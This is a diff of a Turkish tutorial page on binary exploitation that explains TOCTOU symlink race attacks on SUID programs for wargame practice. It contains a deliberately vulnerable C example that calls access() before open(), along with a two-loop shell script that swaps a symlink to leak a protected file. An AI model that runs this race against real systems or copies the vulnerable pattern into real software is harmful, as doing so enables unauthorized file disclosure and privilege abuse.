

Before and after one commit to waitaseC137/linux_learning, a Markdown page: konu_anlatimlari/binary_exploitation/07_sembolik_link.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Revise TOCTOU and symlink exploitation examples
Updated code examples and explanations regarding TOCTOU vulnerabilities and symlink exploitation in the context of SUID programs.

````diff
--- a/konu_anlatimlari/binary_exploitation/07_sembolik_link.md
+++ b/konu_anlatimlari/binary_exploitation/07_sembolik_link.md
@@ -103,42 +103,51 @@ Kontrol (1. adım) ile kullanım (3. adım) arasında zaman var. Bu aralığa **
 > ℹ️ **Not:** Bu bölüm symlink/TOCTOU kavramını *genel olarak* anlatır (Leviathan/Behemoth gibi seviyelerde karşına çıkar). **Narnia 3 aslında bir TOCTOU/race değildir** — tek argüman alır, `access()` kullanmaz ve yarış yoktur; orada `ifile`'ı taşırıp bitişikteki `ofile`'ı ezersin. Narnia 3'ün gerçek mantığı aşağıdaki "Narnia'da Kullanım" bölümünde.
 
 ```c
+// Varsayımsal SUID program: argv[1]'i access() ile kontrol eder,
+// sonra açıp içeriğini stdout'a basar. access() ile open() ARASINDAKİ
+// pencere TOCTOU açığıdır.
 int main(int argc, char **argv) {
-    int  ifd;
     char *path = argv[1];
+    char buf[256];
+    int  fd, n;
 
-    if(access(path, R_OK)) {         // Adım 1: KONTROL — path okunabilir mi?
-        // hata
+    if(access(path, R_OK) != 0) {    // Adım 1: KONTROL — GERÇEK uid ile okunabilir mi?
+        perror("access");
+        return 1;
     }
 
     // ← RACE WINDOW — burada symlink değiştirilebilir!
 
-    ifd = open(path, O_RDONLY);      // Adım 2: KULLANIM — dosyayı aç
-    // ifd artık orijinal değil, symlink'in gösterdiği yere açık!
+    fd = open(path, O_RDONLY);       // Adım 2: KULLANIM — ETKİN (SUID) uid ile aç
+    while((n = read(fd, buf, sizeof buf)) > 0)
+        write(1, buf, n);            // içeriği stdout'a bas → symlink hedefini sızdırır
+    return 0;
+}
 ```
+
+> 🔑 `access()` izinleri **gerçek** uid/gid ile, `open()` ise **etkin** (SUID'li) uid ile kontrol eder. TOCTOU'nun can alıcı noktası bu: program "bu kullanıcı bunu okuyabilir mi?" diye `access()` ile bakar, sonra yetkili haliyle açar. Sen `access()` geçtikten sonra symlink'i yetkili olmadığın bir dosyaya çevirirsin.
 
 ### Saldırı Adımları
 
 ```bash
-# (Genel TOCTOU örneği — ./vuln access() ile kontrol edip sonra açan
-#  varsayımsal bir SUID program. Narnia3 BÖYLE ÇALIŞMAZ.)
+# (Genel TOCTOU örneği — ./vuln, argv[1]'i access() ile kontrol edip sonra
+#  açan ve içeriğini stdout'a basan varsayımsal bir SUID program.
+#  Narnia3 BÖYLE ÇALIŞMAZ — orada access() yok, taşma var.)
 
-# Terminal 1 — saldırgan scripti (döngüde çalışır):
+# Terminal 1 — symlink'i sürekli iki hedef arasında takas et:
 while true; do
-    # Önce güvenli dosyayı göster (kontrol geçsin):
-    ln -sf /tmp/güvenli_dosya /tmp/hedef
-    sleep 0.01
-
-    # Hızlıca şifre dosyasına çevir:
-    ln -sf /etc/şifre_dosyası /tmp/hedef
-    sleep 0.01
+    ln -sf /tmp/güvenli_dosya /tmp/hedef   # önce: access() bunu görüp geçsin
+    ln -sf /etc/şifre_dosyası /tmp/hedef   # hemen sonra: open() bunu açsın
 done &
 
-# Terminal 2 — SUID programı çalıştır (loop):
+# Terminal 2 — programı döngüde çalıştır, stdout'u yakala:
 while true; do
-    ./vuln /tmp/hedef /tmp/çıktı 2>/dev/null
-    # Eğer race window'u yakaladıysa /tmp/çıktı şifreyi içerir
-    cat /tmp/çıktı 2>/dev/null | grep -v "^$" && break
+    OUT=$(./vuln /tmp/hedef 2>/dev/null)
+    # Race window'u yakaladıysak OUT, şifre dosyasının içeriğini taşır
+    if [ -n "$OUT" ] && [ "$OUT" != "$(cat /tmp/güvenli_dosya 2>/dev/null)" ]; then
+        echo "[✓] Sızan içerik: $OUT"
+        break
+    fi
 done
 ```
 
````
